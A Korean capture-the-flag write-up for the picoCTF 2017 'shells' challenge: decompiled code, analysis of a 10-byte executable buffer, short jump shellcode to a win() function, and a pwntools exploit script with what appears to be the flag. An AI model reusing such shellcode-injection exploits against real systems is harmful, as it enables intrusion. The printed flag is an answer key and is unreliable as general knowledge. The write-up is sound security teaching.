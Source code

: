 `#asm`
- [Description](#description)
- [Analysis](#analysis)
- [Exploit code](#exploit-code)
## Description
How much can a couple bytes do?  
Use [shells](https://webshell2017.picoctf.com/static/8e8374627189dd4e8e27ec41eed166a1/shells)!  
[Source](https://webshell2017.picoctf.com/static/8e8374627189dd4e8e27ec41eed166a1/shells.c).  
Connect on shell2017.picoctf.com:50454.  

## Analysis
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  puts("My mother told me to never accept things from strangers");
  puts("How bad could running a couple bytes be though?");
  fflush(stdout);
  vuln();
  return 0;
}
```
main() 에는 vuln() 함수 호출하는게 전부였다.  
```
int vuln()
{
  void *buf; // [sp+Ch] [bp-Ch]@1

  buf = mmap(0, 0xAu, 7, 34, 0, 0);
  if ( buf == (void *)-1 )
  {
    puts("Failed to get space. Please talk to admin");
    exit(0);
  }
  printf("Give me %d bytes:\n", 10);
  fflush(stdout);
  if ( !read(0, buf, 0xAu) )
  {
    printf("You didn't give me anything :(");
    exit(0);
  }
  return ((int (*)(void))buf)();
}
```
vuln() 마지막 줄을 보면  
지역변수 buf 를 호출하고 있다.  
바로 여기에 초점을 맞추면 된다.  
  
그렇기 때문에 read(buf, 0xA); 에서 attack!  

```
[0x08048440]> afl
...
0x08048540    1 24           sym.win
0x08048560    5 165          sym.vuln
0x08048610    1 84           sym.main
...
```
strip 되어있지 않아  
win() 이라는 사용자정의함수가 보인다.  
```
int win()
{
  return system("/bin/cat ./flag.txt");
}
```
  
vuln() 에 있었던 지역변수 buf 는 mmap() 으로부터 주소를 받으므로  
win() 을 호출할 어셈을 read(buf,0xA); 에 넣어야 한다.  
  
```
   0:   b8 40 85 04 08          mov    eax,0x8048540
   5:   ff e0                   jmp    eax
```

## Exploit code
```python
from pwn import *

r = remote("shell2017.picoctf.com", 50454)
r.recvuntil(":\n")
r.sendline("\xb8\x40\x85\x04\x08\xff\xe0")
r.interactive()
# b3b5aa513a9339475cd1054588bb70fd
```

